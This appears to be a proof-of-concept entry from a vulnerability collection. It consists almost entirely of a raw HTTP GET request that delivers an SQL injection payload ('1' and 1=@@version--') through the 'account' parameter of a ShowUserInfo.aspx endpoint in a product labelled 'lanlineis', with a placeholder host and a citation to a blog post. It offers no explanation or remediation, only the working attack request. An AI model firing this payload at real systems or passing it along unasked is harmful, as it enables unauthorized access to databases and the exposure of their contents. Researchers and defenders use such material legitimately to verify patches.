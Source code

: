 # lanlineis_ShowUserInfo_sql
2024/1/15
from: https://blog.csdn.net/luochen2436/article/details/135505108?spm=1001.2014.3001.5502
@2
```
GET /third/DingTalk/Demo/ShowUserInfo.aspx?account=1'%20and%201=@@version--+ HTTP/1.1
Host: your_ip
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```
